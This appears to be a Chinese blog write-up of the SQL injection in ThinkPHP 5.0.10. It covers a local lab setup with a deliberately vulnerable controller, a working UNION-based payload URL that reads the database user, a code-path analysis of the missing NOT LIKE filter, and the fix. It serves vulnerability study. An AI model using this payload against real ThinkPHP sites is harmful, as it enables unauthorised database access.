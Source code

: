 # 原创
：  ThinkPHP5.0.10 SQL注入

# ThinkPHP5.0.10 SQL注入

#### ThinkPHP5.0.10 SQL注入

## 漏洞概要

> 



## 初始配置

> 
获取测试环境代码


```
composer create-project --prefer-dist topthink/think=5.0.10 tpdemo

```

> 
将 composer.json 文件的 require 字段设置成如下


```
"require": {
    "php": "&gt;=5.4.0",
    "topthink/framework": "5.0.10"
},

```

> 
然后执行 `composer update` ，并将 `application/index/controller/Index.php` 文件代码设置如下


```
&lt;?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()-&gt;get('username/a');
        $result = db('users')-&gt;where(['username' =&gt; $username])-&gt;select();
        var_dump($result);
        return '&lt;style type="text/css"&gt;*{ padding: 0; margin: 0; } .think_default_text{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }&lt;/style&gt;&lt;div style="padding: 24px 48px;"&gt; &lt;h1&gt;:)&lt;/h1&gt;&lt;p&gt; ThinkPHP V5&lt;br/&gt;&lt;span style="font-size:30px"&gt;十年磨一剑 - 为API开发设计的高性能框架&lt;/span&gt;&lt;/p&gt;&lt;span style="font-size:22px;"&gt;[ V5.0 版本由 &lt;a href="http://www.qiniu.com" target="qiniu"&gt;七牛云&lt;/a&gt; 独家赞助发布 ]&lt;/span&gt;&lt;/div&gt;&lt;script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"&gt;&lt;/script&gt;&lt;script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"&gt;&lt;/script&gt;&lt;thinkad id="ad_bd568ce7058a1091"&gt;&lt;/thinkad&gt;';
    }
}
?&gt;

```

> 
在 `config/database.php` 文件中配置数据库相关信息，并开启 `config/app.php` 中的 `app_debug` 和 `app_trace` ，创建数据库信息如下


```
create database thinkphp;
use thinkphp;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'H3rmesk1t');

```

## 漏洞利用

> 
Payload


```
http://127.0.0.1/cms/public/index.php/index/index?username[0]=not%20like&amp;username[1][0]=%%&amp;username[1][1]=233&amp;username[2]=)%20union%20select%201,user()%23

```

## 漏洞分析

> 
首先，不管以哪种方式传递数据给服务器，这些数据在 ThinkPHP 中都会经过 `Request` 类的 `input` 方法，数据不仅会被强制类型转换，还都会经过 `filterValue` 方法的处理，该方法是用来过滤表单中的表达式，但是代码少过滤了 `NOT LIKE` ，而本次漏洞正是利用了这一点


> 
跟进 `thinkphp/library/think/Request.php`，在 `input` 方法中，传入的数据会经过 `filterValue` 过滤和强制类型转换，然后返回


> 
跟进 `filterValue` 方法，查看是如何实现的，发现调用到 `filterExp` 方法，可以看到没有过滤 `NOT LIKE`


> 
继续跟进 ThinkPHP处理 SQL 语句的方法，首先程序先调用 `Query` 类的 `where` 方法，通过其 `parseWhereExp` 方法分析查询表达式，然后再返回并继续调用 `select` 方法准备开始构建 `select` 语句


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2a2a4df416a24d009187ce18d000f330.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/5f6348d163c84d78884284e0442114d1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
此处的 `$this-&gt;builder` 为 `think\db\builder\Mysql` 类，而 `Mysql` 类继承于 `Builder` 类，所以会继续调用到 `Builder` 类的 `select` 方法，该方法调用了`parseWhere` 方法，然后调用了 `buildWhere` 方法，该方法继续调用了 `parseWhereItem` 方法，跟进该方法


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/bba6e107e264477c80505659edf5e5c9.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/5c0dabb4b6b04dc7a618510b717429f5.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
此处到操作符 `$exp` 为 `NOT LIKE` 或 `LIKE` 时，MySQL的逻辑控制符可控，后进行拼接返回带入SQL语句中执行，导致了SQL注入漏洞


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/d7ccb54cc93445eb9454fac2ff94eb27.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/d26d15a2ba4e460783ec90ed7f364373.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
执行的SQL语句为：


```
(`username` NOT LIKE '%%' ) UNION SELECT 1,USER()# `username` NOT LIKE '233')

```

> 
完整的方法调用，从下往上


## 漏洞修复

> 
在 5.0.10 之后的版本，官方的修复方法是：在 `Request.php` 文件的 `filterValue` 方法中，过滤掉 `NOT LIKE` 关键字，而在 5.0.10 之前的版本中，这个漏洞是不存在的，但是其代码也没有过滤掉 `NOT LIKE` 关键字；经过调试，发现原来在 5.0.10 之前的版本中，其默认允许的表达式中不存在 `NOT LIKE`，所以即便攻击者可以通过外部控制该操作符号，也无法完成攻击，相反， 5.0.10 版本其默认允许的表达式中，存在 `NOT LIKE` ，因而可以触发漏洞


## 攻击总结

> 
参考Mochazz师傅的审计流程

